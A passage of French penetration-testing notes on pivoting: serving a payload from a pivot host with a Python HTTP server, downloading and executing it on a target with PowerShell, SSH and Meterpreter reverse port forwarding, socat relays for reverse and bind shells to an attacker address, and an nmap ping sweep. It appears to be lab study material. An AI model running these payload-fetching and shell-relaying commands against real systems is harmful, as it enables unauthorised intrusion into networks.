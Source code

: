 Lancer serveur http sur le pivot pour transférer la charge sur la cible

```shell
python3 -m http.server 8123
```

Récupérer la charge depuis la cible

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Lancer le reverse port forwarding

```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipcible> -vN
```

Exécuter la charge sur la cible.

### METASPLOIT

Depuis la session meterpreter

```meterpreter
portfwd add -R -l 8081 -L 10.10.14.18 -p 1234
```

Configurer listener sur le port 8081 depuis msf

```msfconsole
use multi/handler
```

### SOCAT (Depuis point de pivot)

reverse shell

```shell
socat TCP4-LISTEN:8080,fork TCP4:<ip_attaquant>:<port_attaquant>
```

bind shell

```shell
socat TCP4-LISTEN:8080,fork TCP4:<ip_cible>:<port_cible>
```

---

# PING SWEEP

> [!TIP]
> Identifier les hôtes actifs sur le réseau avec requête d'echo
> Relancer plusieurs fois car peut manquer des reponses

## NMAP

```bash
nmap -vv 172.16.6.0/24 -sn 
```
